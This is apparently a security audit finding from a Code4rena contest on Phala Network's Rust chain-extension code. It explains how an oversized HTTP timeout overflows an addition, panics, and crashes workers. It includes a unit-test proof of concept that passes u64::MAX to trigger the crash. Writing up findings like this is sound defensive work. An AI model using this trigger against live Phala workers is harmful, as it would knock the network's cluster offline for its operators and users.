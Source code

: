 ```rust
                futures::future::join_all(futs),
            )
            .await
        })
        .or(Err(ext::HttpRequestError::Timeout))
    }
```

<https://github.com/code-423n4/2024-03-phala-network/blob/a01ffbe992560d8d0f17deadfb9b9a2bed38377e/phala-blockchain/crates/pink/chain-extension/src/lib.rs#L56>

The issue is that in Rust, the `+` operator can overflow when numerics bound are exceeded; this will result in a `panic` error.

When a malicious user sends a request with a timeout greater than `u64::MAX - 200`, they will crash the worker. As this action will cost nothing to the attacker, they can simply send multiple requests to crash all the workers, which will result in a DoS of the cluster system.

### Coded PoC

Copy-paste the following test in `phala-blockchain/crates/pink/chain-extension/src/mock_ext.rs`:

```rust
    #[cfg(test)]
    mod tests {
        use crate::PinkRuntimeEnv;
        use pink::chain_extension::{HttpRequest, PinkExtBackend};

        use super::*;

        #[test]
        fn http_timeout_panics() {
            mock_all_ext();
            let ext = MockExtension;
            assert_eq!(ext.address(), &AccountId32::new([0; 32]));
            let responses = ext
                .batch_http_request(
                    vec![
                        HttpRequest {
                            method: "GET".into(),
                            url: "https://httpbin.org/get".into(),
                            body: Default::default(),
                            headers: Default::default(),
                        },
                        HttpRequest {
                            method: "GET".into(),
                            url: "https://httpbin.org/get".into(),
                            body: Default::default(),
                            headers: Default::default(),
                        },
                    ],
                    u64::MAX, //@audit this will cause an overflow
                )
                .unwrap()
                .unwrap();
            assert_eq!(responses.len(), 2);
            for response in responses {
                assert!(response.is_ok());
            }
        }
    }
```
